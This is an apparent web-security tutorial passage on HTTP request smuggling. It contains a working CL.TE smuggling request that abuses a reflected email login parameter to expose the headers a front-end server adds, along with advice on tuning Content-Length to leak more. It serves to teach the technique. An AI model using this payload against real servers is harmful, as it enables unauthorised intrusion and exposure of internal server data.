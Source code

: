 * Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal
Suppose an application has a login function that reflects the value of the email parameter: 
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
 This results in a response containing the following: 
 ```
 <input id="email" value="wiener@normal-user.net" type="text">
 ```
Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request: 
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
Since the final request is being rewritten, you don't know how long it will end up. The value in the Content-Length header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.  
Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server.   
